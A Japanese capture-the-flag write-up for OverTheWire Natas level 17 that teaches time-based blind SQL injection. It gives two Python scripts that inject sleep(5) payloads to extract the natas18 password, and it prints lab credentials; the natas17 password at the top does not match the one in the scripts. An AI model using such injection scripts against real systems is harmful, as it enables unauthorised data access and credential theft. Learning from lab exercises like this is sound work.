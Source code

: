 # Natas17
```
Username: natas17
Password: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
URL:      http://natas17.natas.labs.overthewire.org
```

とりあえず`View sourcecode`

Level15と同じ感じだが、出力結果がコメントアウトされているので表示されない。  
これではLevel15で使用した「This user exit」と表示されたらその文字が使われているという手法が使えない。  
そこで`time-based injection`という手法を使う

## time-based injectionとは？
実行させるSQL分にsleep(秒数)を追加することで、そのSQLが実行(正)された場合に秒数待つようにする。  
指定秒数かかれば使われている(正)ということであり、かからなければ使われていない(負)であるとわかる。  

Pythonが書けないのでChat GPT君に手伝ってもらいました↓  
使われている場合は5秒待機するように`sleep(5)`を追加しています。

```
import requests
import time

url = 'http://natas17.natas.labs.overthewire.org/'
username = 'natas17'
password = 'XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd'
payload = "1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
used_chars = ""

session = requests.Session()
session.auth = (username, password)

def get_response_time(payload_char):
    data = {
        'username': f'natas18" AND password LIKE BINARY "%{payload_char}%" AND sleep(5) # '
    }
    start_time = time.time()
    response = session.post(url, data=data, stream=True)  # stream=Falseで即時のレスポンスを取得
    end_time = time.time()
    return end_time - start_time

for char in payload:
    response_time = get_response_time(char)
    print(f"Character '{char}': {response_time} seconds")
    if response_time > 5:
        used_chars += char

print(f"Used characters: {used_chars}")
```

これによって、  
`468DEFGJLNPQUVZagknoquvwx`  
が使われていることがわかる。  

これをpayloadにセットしてLevel15のようにすれば良い
```
import requests
import time

url = 'http://natas17.natas.labs.overthewire.org/index.php'
username = 'natas17'
password = 'XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd'
known_chars = "468DEFGJLNPQUVZagknoquvwx"

session = requests.Session()
session.auth = (username, password)

def test_password(test_password):
    data = {
        'username': f'natas18" AND password LIKE BINARY "{test_password}%" AND sleep(5) -- '
    }
    start_time = time.time()
    response = session.post(url, data=data)
    end_time = time.time()
    return end_time - start_time

def find_next_char(password):
    for char in known_chars:
        test_password_str = password + char
        response_time = test_password(test_password_str)
        print(f"Testing password: {test_password_str} - Response time: {response_time} seconds")
        if response_time >= 5:
            return char
    return None

found_password = ""
while len(found_password) < 32:
    next_char = find_next_char(found_password)
    if next_char is None:
        print("Failed to find next character.")
        break
    found_password += next_char

print("Generated password:", found_password)
```
得られる答えは
```
6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ
```